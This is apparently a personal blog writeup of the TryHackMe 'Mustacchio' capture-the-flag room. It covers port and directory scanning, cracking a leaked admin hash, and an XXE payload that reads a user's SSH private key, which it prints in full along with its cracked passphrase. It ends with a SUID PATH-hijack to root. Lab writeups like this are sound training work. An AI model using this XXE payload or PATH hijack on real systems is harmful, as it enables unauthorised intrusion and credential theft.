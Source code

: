 ```yaml
---
layout: post
title: Mustacchio CTF
published: true
---
```


Well hello people. This is a writeup of the Mustacchio CTF from Tryhackme. 
It was rated as a easy level box and it’s a really interesting challenge so 
without further due let’s start the hack.

![]({{site.baseurl}}/images/mustacchio/mustache.png)

Room : [Mustacchio](https://tryhackme.com/room/mustacchio)

## Nmap Scanning

>  nmap -p- IPADDR

We get the following ports open :
```
- 22 ssh
- 80 http
- 8765 ultraseek-http
```

So after scanning we know there is a website running on this machine so lets hope on to it and have a look.

![]({{site.baseurl}}/images/mustacchio/site.png)

## Go Gobuster!!!

> gobuster dir -u http://IPADDR -w /usr/share/wordlists/dirbuster/common.txt

![]({{site.baseurl}}/images/mustacchio/gobuster.png)

After the scan you can see we got some directories. Most of them are dead ends but the `custom` has a .bak file in it. After downloading it we can see that it is some sort of a SQL backup file with some credentials.

![]({{site.baseurl}}/images/mustacchio/bak.png)

After using crackstation to crack the password we get the following credentails :

```
admin
bulldog19
```

Now, lets check the 8765 port 

![]({{site.baseurl}}/images/mustacchio/login-page.png)

We get this login page. Hmm... let try those credential we just found. 

![]({{site.baseurl}}/images/mustacchio/xxe.png)

And we are in! Lets look at the source code.

![]({{site.baseurl}}/images/mustacchio/source.png)

We see these two intersting comments. The 2nd one tells us a username for the SSH login which is Barry. The 1st is looks like a path. After checking the path we get a dontforget.bak file with some XML code written in it.

## XXE

We can try to read the id_rsa file on barry from the machine by attempting binding a payload to the sample XML code we got from the dontforget.bak file

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa">]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>

  <com>&xxe;</com>
</comment>
```

And we get the id_rsa but we have to format it properly by adding spaces and line breaks otherwise it will give an error while logging it.

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----
```


## John The Ripper

Now lets crack the id_rsa as it is requires a passpharse to login

> /opt/johnTheRipper/ssh2John.py id_rsa  hash

> john hash --wordlist=/usr/share/wordlists/rockyou.txt

And we get the passphrase : ``` urieljames```

## Loggin into SSH

After loggin in we get the user flag right away

![]({{site.baseurl}}/images/mustacchio/loginSSH.png)

## Privilege escalation

Lets look for SUIDs to exploit as it is given in the hint

> find / -perm -u=s -type f 2>/dev/null

We get a binary called live_log in joe's directory and luckily we can move into his directory as well.
After using strings on the binary file we see this interesting line

> tail -f /var/log/nginx/access.log

Intresting. Lets use this to gain root. Lets create a file named tail and make it executable and a script to get root. We also have to change the path to our file 

> echo "/bin/bash" > tail

> chmod +x tail

> export PATH=/tmp:$PATH

Now lets run the `live_log` binary.

![]({{site.baseurl}}/images/mustacchio/root.png)

And that's it. We got root. This was a fun box. Though i have to admit i had to take some hints on the way but still it was a great learning experience. Hope you enjoyed this as well :)